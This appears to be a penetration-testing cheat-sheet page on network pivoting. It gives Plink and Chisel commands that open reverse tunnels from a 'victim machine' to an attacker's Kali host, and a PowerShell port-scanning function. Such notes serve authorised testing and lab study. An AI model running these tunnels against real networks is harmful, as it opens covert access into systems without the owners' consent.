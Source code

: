 # Network

### Plink Port Forwarding

```csharp
#10.10.10.19 == kali_IP. 8888 == Port to redirect.
.\plink.exe -l root -pw toor 10.10.10.19 -N -R 8888:127.0.0.1:8888
```

{% embed url="https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe" %}
Plink - Windows 32bits download
{% endembed %}

### Chisel TCP tunnel over HTTP

```csharp
#Download chisel for victim machine version
#10.10.10.19 == kali_IP. 4506 == Port to redirect.
.\chisel client 10.10.10.19:10000 R:4506:127.0.0.1:4506 //In Victim Machine
.\chisel server -p 10000 --reverse //In Kali Machine
```

{% embed url="https://github.com/jpillora/chisel/releases" %}
Chisel - Releases
{% endembed %}

### Scan ports from Powershell

```csharp
function Test-Port {
$computer=Read-Host "[*] IP Address:"
$port=Read-Host "[*] Port Numbers (separate them by comma):"
$port.split(',') | Foreach-Object -Process {If (($a=Test-NetConnection $computer -Port $_ -WarningAction SilentlyContinue).tcpTestSucceeded -eq $true) {Write-Host $a.Computername $a.RemotePort -ForegroundColor Green -Separator " ==> "} else {Write-Host $a.Computername $a.RemotePort -Separator " ==> " -ForegroundColor Red}}
}
```
